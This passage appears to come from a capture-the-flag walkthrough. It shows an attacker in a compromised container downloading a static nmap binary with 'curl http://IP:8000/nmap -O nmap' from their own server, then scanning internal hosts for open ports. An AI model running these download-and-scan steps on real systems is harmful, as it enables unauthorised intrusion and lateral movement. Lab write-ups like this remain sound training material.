 As noticeable, we found two `IPs`, we can suppose we need to target `172.20.0.0/29` to check anything that may be hidden, let's use nmap for this, we need to get the `nmap` binary, you can get it here:

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

Once we got it, we can upload it on the same way we did with deepce, using curl:

```
curl http://IP:8000/nmap -O nmap
```

(Make sure to host the file with a python server).

Let's use nmap now, we're limited so we can only do some base scans, if you'd like to perform a full scan with `-sC -sV`, you need to use chisel as a proxy and to be honest, it's kind of a hassle. Let's simply do some basic enumeration:

```bash
./nmap -sn 172.20.0.0/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-07-23 22:17 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-172-20-0-1.eu-west-1.compute.internal (172.20.0.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
MAC Address: 02:42:65:FD:02:01 (Unknown)
Nmap scan report for cert_library_1.cert_cert-internal (172.20.0.2)
Host is up (-0.20s latency).
MAC Address: 02:42:AC:14:00:02 (Unknown)
Nmap scan report for cert_library-back_1.cert_cert-internal (172.20.0.3)
Host is up (-0.12s latency).
MAC Address: 02:42:AC:14:00:03 (Unknown)
Nmap scan report for 2c5b93ea49de (172.20.0.4)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 5.49 seconds
```

We're able to find two more hosts on here:

```
172.20.0.2
172.20.0.3
```

Let's scan them both to check open ports:

```bash
./nmap -p- --min-rate 5000 172.20.0.3


PORT     STATE SERVICE
8080/tcp open  webcache
MAC Address: 02:42:AC:14:00:02 (Unknown)

./nmap -p- --min-rate 5000 172.20.0.2

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:14:00:03 (Unknown)

```
